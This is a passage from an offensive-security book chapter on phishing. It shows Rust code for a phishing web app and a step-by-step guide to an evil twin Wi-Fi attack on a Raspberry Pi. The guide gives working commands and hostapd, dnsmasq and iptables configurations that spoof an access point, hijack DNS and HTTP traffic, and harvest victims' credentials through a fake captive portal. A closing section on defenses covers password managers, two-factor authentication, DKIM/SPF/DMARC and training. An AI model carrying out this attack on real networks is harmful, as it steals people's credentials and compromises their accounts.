            if let (meta, Ok(data)) = response.into_parts() {
                if meta.status.is_success() {
                    let data: Result<T, _> = serde_json::from_str(&data);
                    if let Ok(data) = data {
                        callback.emit(Ok(data))
                    } else {
                        callback.emit(Err(Error::DeserializeError))
                    }
                } else {
                    match meta.status.as_u16() {
                        401 => callback.emit(Err(Error::Unauthorized)),
                        403 => callback.emit(Err(Error::Forbidden)),
                        404 => callback.emit(Err(Error::NotFound)),
                        500 => callback.emit(Err(Error::InternalServerError)),
                        _ => callback.emit(Err(Error::RequestError)),
                    }
                }
            } else {
                callback.emit(Err(Error::RequestError))
            }
        };

        let body: Text = Json(&body).into();
        let builder = Request::builder()
            .method("POST")
            .uri(url.as_str())
            .header("Content-Type", "application/json");
        let request = builder.body(body).unwrap();

        FetchService::fetch(request, handler.into()).unwrap()
    }
}
```

That being said, it has the advantage of being extremely robust as all possible errors are handled. No more uncaught runtime errors that you will never know about.

### App

Then comes the `App` component, which wraps everything and renders the routes.

**[ch_09/phishing/webapp/src/lib.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/phishing/webapp/src/lib.rs)**
```rust
pub struct App {}

impl Component for App {
    type Message = ();
    type Properties = ();

    // ...

    fn view(&self) -> Html {
        let render = Router::render(|switch: Route| match switch {
            Route::Login | Route::Fallback => html! {<pages::Login/>},
            Route::Error => html! {<pages::Error/>},
        });

        html! {
            <Router<Route, ()> render=render/>
        }
    }
}
```

And finally, the entrypoint to mount and launch the webapp:
```rust
#[wasm_bindgen(start)]
pub fn run_app() {
    yew::App::<App>::new().mount_to_body();
}
```


## Evil twin attack

Now we know how to craft phishing pages in Rust, let me tell you a story.

The most effective phishing attack I ever witnessed was not an email campaign. It was an **evil twin attack**.

The attacker was walking in a targeted location with a Raspberry Pi in his backpack, spoofing the wifi access points of the location.

When victims connected to his Raspberry Pi (thinking they were connecting to the wifi network of the campus), they were served a portal where they needed to enter their credentials, as usual.

But as you guessed, it was a phishing form, absolutely identical to the legitimate portal, and all the credentials were logged in a database on the Raspberry Pi of the attacker.




The success rate was in the order of **80%-90%**: 80-90% of the people who connected to the malicious access point got their credentials siphoned!

Then, the phishing portal simply displayed a network error page, telling the victims that there was a problem with the internet and their request couldn't be processed further, in order not to raise suspicion.

But why do people connected to the evil twin access point? They didn't do anything particular! The beauty of the attack is that it relies on a "feature" of wifi: when 2 networks have the same name (SSID), the devices connect to the one with the strongest signal. And as auto-connect is enabled most of the time on all devices, the victims' devices were simply auto-connecting to the malicious access point, thinking that it was a legitimate one.


### How-to


Here is how to build an Evil Twin access point with a Raspberry Pi and Rust.

Be aware that we are going to mess with the OS, so **I strongly recommend you to use a dedicated microSD card**.

The test has been realized on a Raspberry Pi v4 with RaspbianOS. You need to be connected to your Raspberry Pi using the ethernet port as we are going to turn the wifi card into an access point.

Unfortunately, `wasm-opt` [is not available](https://github.com/rustwasm/wasm-pack/issues/913) for `armv7` hosts. Thus, the phishing portal needs to be built in `dev` mode.


First, we install the required dependencies:
```bash
$ sudo apt install -y macchanger hostapd dnsmasq sqlite3 libssl-dev
```

```bash
$ git clone https://github.com/skerkour/black-hat-rust.git && cd black-hat-rust/ch_09/evil_twin
$ make -C ../phishing/ rpi && cp -r ../phishing/dist/* .
```

Then we launch the freshly built captive portal:
```bash
$ sudo ./server -p 80 &
```

And we can finally launch the `evil_twin.sh` script.
```bash
$ sudo ./evil_twin.sh
```

In detail, the `./evil_twin.sh` is doing the following.

It configures `hostapd` to turn the Raspberry Pi's built-in wireless card `wlan0` into an access point.

**[ch_09/evil_twin/hostapd.conf](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/evil_twin/hostapd.conf)**
```
interface=wlan0
channel=6
hw_mode=g

ssid=FREE_WIFI

bridge=bhr0
auth_algs=1
wmm_enabled=0
```

**[ch_09/evil_twin/evil_twin.sh](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/evil_twin/evil_twin.sh)**
```bash
hostapd -B hostapd.conf
```

Then it redirects all the HTTP and DNS requests to the Raspberry pi.

```bash
$ ifconfig bhr0 up
$ ifconfig bhr0 10.1.1.1 netmask 255.255.255.0
$ sysctl net.ipv4.ip_forward=1
$ iptables --flush
$ iptables -t nat --flush
$ iptables -t nat -A PREROUTING -i bhr0 -p udp -m udp --dport 53 -j DNAT --to-destination 10.1.1.1:53
$ iptables -t nat -A PREROUTING -i bhr0 -p tcp -m tcp --dport 80 -j DNAT --to-destination 10.1.1.1:80
$ iptables -t nat -A POSTROUTING -j MASQUERADE
```

Finally, it runs the  `dnsmasq` DHCP and DNS server.

**[ch_09/evil_twin/dnsmasq.conf](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/evil_twin/dnsmasq.conf)**
```default
interface=bhr0
listen-address=10.1.1.1
no-hosts
dhcp-range=10.1.1.2,10.1.1.254,10m
dhcp-option=option:router,10.1.1.1
dhcp-authoritative

address=/#/10.1.1.1
```

```bash
$ sudo cp -f dnsmasq.conf /etc
$ sudo service dnsmasq restart
```


## How to defend

### Password managers

In addition to saving different passwords for different sites, which is a prerequisite of online security, they fill credentials only on legitimate domains.

If you click on a phishing link and are redirected to a perfect looking, but malicious login form, the password manager will tell you that you are not on the legitimate website of the service and thus don't fill the form and leak your credential to attackers.

With 2-factor authentication, they are the most effective defense against phishing.

### Two-factor authentication

There are a lot of ways credentials can leak: either by phishing, malware, a data breach, a rogue employee...

Two-factor authentication is an extra layer of security that helps to secure online accounts by making sure that people trying to gain access to an online account are who they say they are.

In contrary to credentials, 2-factor authentication methods are supposed to prove that you **own** something instead of **knowing** something (like a password).

There are a few methods to achieve it:

* Hardware token
* unique code by SMS
* unique code by email
* software token
* push notification

Beware that 2FA by SMS is not that secure because sms is a very old protocol, the messages can "easily" be intercepted. This method is also vulnerable to [SIM swapping](https://en.wikipedia.org/wiki/SIM_swap_scam). That being said, it's still a thousand times better to have SMS 2FA than nothing!


### DMARC, DKIM, and SPF

As we saw earlier, `DKIM`, `SPF`, and `DMARC` are technologies helping administrators to protect their email domains.

By setting up these records, you are making it much harder for attackers to spoof your domains to send emails.


`DKIM` (for DomainKeys Identified Mail)  is a security standard designed to make sure emails originate from legitimate servers and arent's altered in transit. It uses public-key cryptography to sign emails with a private key that only the sending server has. We will learn about public-key cryptography, signatures, and private keys in chapter 11.


`SPF` (for Sender Policy Framework) is an email authentication technique that is used to prevent spammers from sending messages on behalf of your domain. With SPF organizations can publish the email servers authorized to send emails for a given domain name.

`DMARC` (for Domain-based Message Authentication, Reporting and Conformance) is an email authentication, policy, and reporting protocol built on SPF and DKIM. It enables organizations to publish policies for recipients servers about how to handle authentication failures and thus detect email spoofing attempts.


Those are all TXT DNS entries to set up. It can be done in ~5 mins, so there is absolutely no reason not to do it.


### Training

Training, training and training. We are all fallible humans and may, one day where we are tired, or thinking about something else, fall into a phishing trap. For me, the only two kinds of phishing training that are effective are:

The quizzes where you have to guess if a web page is a phishing attempt or a legitimate page. They are really useful to raise awareness about what scams and attacks look like:

* [https://phishingquiz.withgoogle.com](https://phishingquiz.withgoogle.com/)
* [https://www.opendns.com/phishing-quiz](https://www.opendns.com/phishing-quiz/)
* [https://www.sonicwall.com/phishing-iq-test](https://www.sonicwall.com/phishing-iq-test)
* [https://www.ftc.gov/tips-advice/business-center/small-businesses/cybersecurity/quiz/phishing](https://www.ftc.gov/tips-advice/business-center/small-businesses/cybersecurity/quiz/phishing)

And real phishing campaigns by your security team against your own employees, with a debrief afterward, of course. For everybody, not just the people who fall into the trap.

The problem with those campaigns is that they have to be frequent and may irritate your employees.

### Buy adjacent domain names

If you are a big company, buy the domain names close to yours (that you can generate with the tools we built earlier). This will make the job of scammers and attackers harder.


### Shred (or burn) all old documents

To avoid someone finding important things in your trash.


## Summary

* Humans are often the weakest link.
* Ethos, Pathos, and Logos.
* Evil twin access points are extremely effective.
<!-- * Awarness, Interest, Desire, Action (AIDA) -->
